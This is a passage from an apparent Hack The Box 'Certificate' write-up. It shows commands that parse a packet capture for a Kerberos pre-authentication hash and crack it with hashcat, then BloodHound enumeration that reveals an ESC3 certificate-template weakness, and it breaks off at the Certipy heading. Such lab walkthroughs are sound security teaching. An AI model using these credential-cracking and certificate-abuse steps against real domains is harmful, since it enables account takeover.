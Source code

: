 ![4](/assets/img/favicons/certificate-htb/wireshark.png)

After some research I eventually been able to extract and crack the kerberos hash using `Krb5RoastParser`.

```shell
┌───(root㉿kali)-[~/HTB/Certificate]
└─$ tshark -r WS-01_PktMon.pcap -T pdml > sample.pdml

┌───(root㉿kali)-[~/HTB/Certificate]
└─$ krb5_roast_parser sample.pdml > krbhash.txt

┌───(root㉿kali)-[~/HTB/Certificate]
└─$ hashcat -m 19900 krbhash.txt /usr/share/wordlists/rockyou.txt
```

**Proof**:
```shell
$krb5pa$18$Lion.SK$CERTIFICATE.HTB$...:[REDACTED]
```

**Owned user**:
- `lion.sk`

#### Step 3 — BloodHound Enumeration
Looking into Bloodhound we notice that `lion.sk` is member of the group `DOMAIN CRA MANAGERS` and by its description: `The members of this security group are responsible for issuing and revoking multiple certificates for the domain users`, we may think that we can attempt to manipulate certificates with certipy.
Checking for vulnerable certificates we should found one with ESC3: Enrollment Agent Certificate Template vulnerability.

#### Step 4 — Using Certipy / ESC3 (Delegated-CRA) to request certificates
